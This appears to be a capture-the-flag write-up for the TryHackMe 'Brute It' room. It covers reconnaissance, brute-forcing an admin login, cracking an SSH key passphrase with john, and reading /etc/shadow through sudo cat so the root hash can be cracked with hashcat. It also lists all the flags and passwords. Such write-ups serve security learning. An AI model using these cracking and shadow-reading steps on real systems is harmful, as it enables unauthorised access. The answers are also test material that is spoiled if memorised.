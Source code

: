 # Brute It

* IP = 10.10.44.136

## Tasks/Questions:

### Task 1(Deploy):

1. Deploy the machine<br>
*No answers needed*

### Task 2(Reconnaissance):

* Nmap Scan Report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* GoBuster Scan Report:
```bash
/admin (Status: 301)
```
1. How many ports are open?<br>

**Ans-2**

2. What version of SSH is running?<br>

**Ans-OpenSSH 7.6p1**

3. What version of Apache is running?<br>

**Ans-2.4.29**

4. Which Linux distribution is running?<br>

**Ans-Ubuntu**

5. What is the hidden directory?<br>

**Ans-/admin**

### Task 3(Getting a shell):

* We get a login page at http://IP/admin:<br>

![Screenshot](./1.png)

* Using a python script to brute force with a common wordlist(for ex: rockyou.txt)
* While checking the source, we found some strange comments:<br>
![Screenshot](./2.png)
* So, the username is probably *admin* and *john* maybe a username in the server??!🤔<br>
![Screenshot](./4.png)

1. What is the user:password of the admin panel?<br>

**Ans-admin:xavier**

* Next we login with those credentials and come to this page:<br>
![Screenshot](./3.png)
* Download the ssh private key and extract the private key passphrase hash:
* Using <a href="https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py">ssh2john</a>
```bash
python3 ssh2john.py id_rsa > rsa.hash
```
* Crack the hash with:
```
john rsa.hash -wordlist=rockyou.txt -format=ssh
```

2. What is John's RSA Private Key passphrase?<br>

**Ans-rockinroll**

* Login to the *SSH* server with:
```bash
chmod 600 id_rsa
ssh -i id_rsa john@IP
```
* Use the above password<br>
![Screenshot](./5.png)

3. user.txt<br>

**Ans-THM{a_password_is_not_a_barrier}**

4. Web flag<br>

**Ans-THM{brut3_f0rce_is_e4sy}**

### Task 4(Privilege Escalation):

* Checking the sudo group:
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
* Since /bin/cat is set to NOPASSWD, we can view both the root password hash from **/etc/shadow** and the flag from **/root/root.txt** too.

![Screenshot](./6.png)
* Copy the hash and crack with *hashcat*
```bash
hashcat -m1800 -a0 hash.txt rockyou.txt -O
```
![Screenshot](./7.png)
* Escalate privileges with:

```bash
su root
```

1. What is the root's password?<br>

**Ans-football**

```bash
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

2. Root.txt<br>

**Ans-THM{pr1v1l3g3_3sc4l4t10n}**
